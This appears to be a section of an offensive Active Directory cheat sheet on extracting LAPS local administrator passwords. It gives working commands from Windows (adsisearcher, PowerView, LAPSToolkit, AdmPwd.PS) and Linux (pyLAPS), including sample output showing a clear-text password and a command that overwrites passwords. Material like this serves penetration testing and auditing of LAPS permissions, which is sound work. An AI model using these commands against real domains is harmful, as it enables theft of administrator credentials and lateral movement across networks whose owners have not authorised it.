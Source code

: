 ### Reading LAPS Password

> Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure. 

#### Determine if LAPS is installed

```ps1
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

#### Extract LAPS password

> The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

 - From Windows:

   * adsisearcher (native binary on Windows 8+)
       ```powershell
       ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
       ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
       ```

   * [PowerView](https://github.com/PowerShellEmpire/PowerTools)
       ```powershell
       PS > Import-Module .\PowerView.ps1
       PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
       ```

   * [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
       ```powershell
       $ Get-LAPSComputers
       ComputerName                Password                                 Expiration         
       ------------                --------                                 ----------         
       example.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18

       $ Find-LAPSDelegatedGroups
       $ Find-AdmPwdExtendedRights
       ```

   * Powershell AdmPwd.PS
       ```powershell
       foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
       ```

 - From linux:

   * [pyLAPS](https://github.com/p0dalirius/pyLAPS) to **read** and **write** LAPS passwords:
       ```bash
       # Read the password of all computers
       ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
       # Write a random password to a specific computer
       ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
       ```
     